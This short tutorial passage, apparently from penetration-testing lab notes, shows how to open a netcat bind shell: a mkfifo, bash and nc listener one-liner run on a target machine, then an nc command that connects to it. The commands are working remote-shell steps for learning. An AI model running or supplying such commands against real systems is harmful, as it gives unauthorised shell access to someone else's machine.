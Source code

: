 # NetCat Bind Shell

**Start the listener on the target machine:** On the target machine, specify the directory, shell, listener, work with some pipelines, and input & output redirection to ensure a Bind Shell to the system gets served when the client attempts to connect.

```shell
Target@server[~]$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

**Connect to the bind shell:**

```shell
clue@machine[/]$ nc -nv 10.129.41.200 7777

target@server[~]$  
```
